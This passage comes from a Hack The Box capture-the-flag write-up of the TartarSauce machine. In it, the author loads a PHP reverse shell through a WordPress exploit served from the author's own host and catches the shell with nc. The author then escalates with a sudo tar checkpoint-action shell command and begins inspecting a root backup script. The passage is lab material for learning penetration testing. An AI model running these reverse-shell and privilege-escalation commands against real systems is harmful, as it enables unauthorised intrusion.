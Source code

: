 ![Untitled](/img/htb-tartarsauce/Untitled%208.png)

According to the exploit, it looks for file name `wp-load.php`, So I changed my php reverse shell name as `wp-load`

And in my python server, I got the hit.

![Untitled](/img/htb-tartarsauce/Untitled%209.png)

And Reverse shell in my nc listener.

![Untitled](/img/htb-tartarsauce/Untitled%2010.png)

The first thing I do always is, Checking `sudo -l` and it seems I can run `tar` as user onuma without any password.

```bash
$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

> [https://gtfobins.github.io/gtfobins/tar/#sudo](https://gtfobins.github.io/gtfobins/tar/#sudo)

![Untitled](/img/htb-tartarsauce/Untitled%2011.png)

tar have some special parameters than can help us to spawn a shell as user `onuma`

```bash
$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
$ whoami
whoami
onuma
```

## Privilege Escalation

First I uploaded Enum script and it doesn't reveals anything, So I tried uploading `pspy` and after sometime I get a hit with this running as user root.

```bash
2020/07/13 05:00:41 CMD: UID=0    PID=26257  | /bin/bash /usr/sbin/backuperer
```

So I checked the script and its a bash script doing some backup stuffs.

```bash
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
```